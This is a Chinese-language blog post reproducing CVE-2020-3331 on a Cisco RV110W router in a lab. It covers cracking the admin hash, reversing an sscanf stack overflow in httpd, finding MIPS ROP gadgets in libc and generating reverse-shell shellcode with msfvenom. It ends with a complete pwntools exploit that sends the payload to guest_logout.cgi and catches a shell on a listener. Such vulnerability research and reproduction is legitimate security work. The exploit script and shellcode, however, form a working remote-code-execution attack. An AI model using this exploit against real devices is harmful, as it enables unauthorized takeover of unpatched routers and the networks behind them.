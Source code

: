```yaml
---
title: Cisco RV110W 路由器 CVE-2020-3331 漏洞复现
date: 2024-03-11 16:33:55
tags: [IOT, 路由器， Pwn]
categories: [技术]
excerpt: "IOT Reboot!"
thumbnail: "https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_cisco.jpg"
---
```


某天发现实验室里有这个路由器，是学长留下的，那这不日日都说不过去了吧

参考：

[思科路由器 RV110W CVE-2020-3331 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

### Start

首先可以拿到该设备的固件，解包固件可以找到 `/etc/shadow` 里面存的 admin 用户的密码 hash

`/sbin/rc` :

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_rc.png)

使用 hashcat 可以对该 hash 进行爆破，需要事先准备一份弱密码字典，最后爆出来 密码是 `Admin123` 。有了密码，就能直接通过 telnet 远程连上路由，这样有 shell 比较方便复现漏洞

搜索 `login.cgi` 路由，以确定 web 服务器程序是哪一个

```bash
grep -rn "login.cgi" * 2>/dev/null
# 递归搜索关键字，并将stderr重定向到null
# '*' 表示搜索所有文件
# r 表示递归，n 表示显示行号
```

最终确定是 `/sbin/httpd`

分析 `/sbin/httpd` 程序中的 `guest_logout_cgi()` ，发现危险函数 `sscanf()`

```c
  v5 = (const char *)get_cgi("cmac");
  v7 = get_cgi("cip");
  v6 = (const char *)get_cgi("cip");
  for ( j = (char *)(v7 + strlen(v6) - 1); get_cgi("cip") < (unsigned int)j; *j-- = 0 )
  {
    v9 = *j;
    if ( v9 != 10 && v9 != 13 && v9 != 32 )
      break;
  }
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    memset(v29, 0, 0x40u);
    memset(v28, 0, sizeof(v28));
    v12 = fopen("/dev/console", "w");
    v13 = v12;
    if ( v12 )
    {
      fprintf(v12, "\n  mac=[%s], ip=[%s], submit_button=[%s]\n", v5, v10, v11);
      fclose(v13);
    }
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) ) //MAC 和 IP 有效
    {
      if ( !strstr(v11, "status_guestnet.asp") ) //submit_button 包含 status_guestnet.asp
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);  
```

这个 `sscanf` 是在从`v11`正则匹配存到 `v29` `v28` ，存在栈溢出漏洞

匹配规则：`%`表示要，`%*`表示不要

- `%[^;]` 分号前面的所有字符都要，存在 `v29`
- `;%*[^=]` 分号后等号前所有的东西都不要
- `=%[^\n]` 等号后所有东西都要，存在 `v28`

比如 `aaa;bbb=ccc` 就是`aaa`和`ccc`被提取出

其实这个匹配不重要，此时 v11 就是 `submit_button=` 后面的值

故分析程序路径要到达这个 sscanf 得有三个参数且满足对应的要求：

1. cmac：MAC 地址格式
2. cip：IP 地址格式
3. submit_button: 包含 status_guestnet.asp

我们可以传输超长的 submit_button 项来测试是否会溢出，另外两个 cmac 和 cip 都有格式检测，唯有 submit_button 只需要包含字符串 `status_guest.asp` 即可

可以写一个 python 脚本来发包看看：

```py
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

post 上去之后，web 页面就无法访问了，为了得到更多的细节，我们可以传一个 gdbserver 上去远程调试

[https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/静态编译调试程序/gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/%E9%9D%99%E6%80%81%E7%BC%96%E8%AF%91%E8%B0%83%E8%AF%95%E7%A8%8B%E5%BA%8F/gdbserver)

```bash
./gdbserver --attach 0.0.0.0:1234 515 # httpd pid
```

经过调试，执行到 `sscanf` 时，v29 会匹配到 `submit_button` 的值，如果后面不加更多参数的话 v28 什么都匹配不到

v29 正好是该函数栈最底端的数据，紧接 fp 和 pc，那么覆盖 pc 将非常容易

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_stack.png)

```bash
pwndbg> distance 0x7fcc839c 0x7fcc8404
0x7fcc839c->0x7fcc8404 is 0x68 bytes (0x1a words)
# len("status_guestnet.asp") == 19
# 0x68-19 = 85
```

所以填充长度为85

```python
payload = b"status_guestnet.asp"+b'a'*85+p32(pc)
```

mips 没有 nx ，所以可以 shellcode in stack

如下图，函数退出时，这些寄存器都可以自由控制

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_ida.png)

首先得找到合适的 gadget, 把栈地址给寄存器，然后再跳到寄存器

不能使用程序本身的 gadget，因为程序的地址有`\x00` ，发过去就截断了，所以考虑使用 libc

经过调试发现 libc 的地址是固定的，并没有随机化，固定为 0x2af98000，可以在 libc 中查找 gadget

```bash
# stackfind 表示查找给寄存器赋栈地址值的 gadget,同时使用 move $t9 过滤跳转寄存器指令
ROPgadget --binary libc.so --mipsrop "stackfinder"|grep 'move $t9'
#0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
# 该 gadget 将 sp+0x28 赋给a0，然后跳转到 s1,注意这里向前提了一条是防止地址有\x00
ROPgadget --binary libc.so |grep 'move $t9, $a0'
#0x0003d050 : move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9 ; addiu $a0, $sp, 0x18
# 跳转到栈地址
```

至于控制各寄存器的栈偏移位置可以用 `cyclic()` `cyclic_find()`测算

shellcode 的功能是反弹shell，所以开一个端口进行监听，shellcode 可以用[这个](http://shell-storm.org/shellcode/files/shellcode-860.php)，也可以用 msf 生成，我选择用 msf

```bash
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=10.10.10.100 LPORT=31337 --arch mipsle --platform linux -f py -o shellcode.py
```

### exp

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000

jmp_s0 = libc + 0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
jmp_a0 = libc + 0x0003D050 # move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9

shellcode = b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += b"\xf8\xff\xa5\xaf\x0a\x64\x05\x3c\x0a\x0a\xa5\x34\xfc\xff\xa5\xaf"
shellcode += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"

# offset for s0: 49
#s1: 53
#s2: 57

payload = b"status_guestnet.asp" +b'a'*49+p32(jmp_a0)+32*b'a'+p32(jmp_s0)+0x28*b'a'+shellcode
#payload += cyclic(100)
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"10.10.10.100"}

def attack():
    try: requests.post("https://10.10.10.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.Thread(attack,()).run()
io.wait_for_connection()
log.success("getshell")
io.interactive()

# reg 0x0431B58
#0x431bb0
```

[https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

其实我贴的这个文章中有一个错误，其选择的 libc gadget 0x000257A0 有一个指令为

```nasm
sw     $v0, 0x18($sp)
```

而 `$sp+0x18` 正好是他写 shellcode 的地方，此时 v0 为 0，这个指令会让 shellcode 第一条指令
`slti $a0, $zero, 0xFFFF` 变成 `nop`，导致第一个 syscall：close(stdin) 实际上没有正常执行